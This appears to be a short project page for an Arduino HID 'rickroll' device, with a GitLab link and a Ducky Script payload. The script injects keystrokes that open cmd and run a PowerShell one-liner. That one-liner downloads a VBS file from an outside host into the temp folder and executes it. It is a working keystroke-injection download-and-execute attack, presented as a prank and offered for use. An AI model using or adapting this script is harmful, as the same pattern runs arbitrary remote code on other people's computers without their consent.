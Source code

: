 GitLab repo: https://gitlab.com/WarKitteh/arduino-hid-rickroll

Ducky code:
`DELAY 1000
GUI r
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 100
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://pixelcoding.nl/download/rickroll.vbs','%TEMP%\rickroll.vbs'); && start %TEMP%\rickroll.vbs && exit
DELAY 100
ENTER`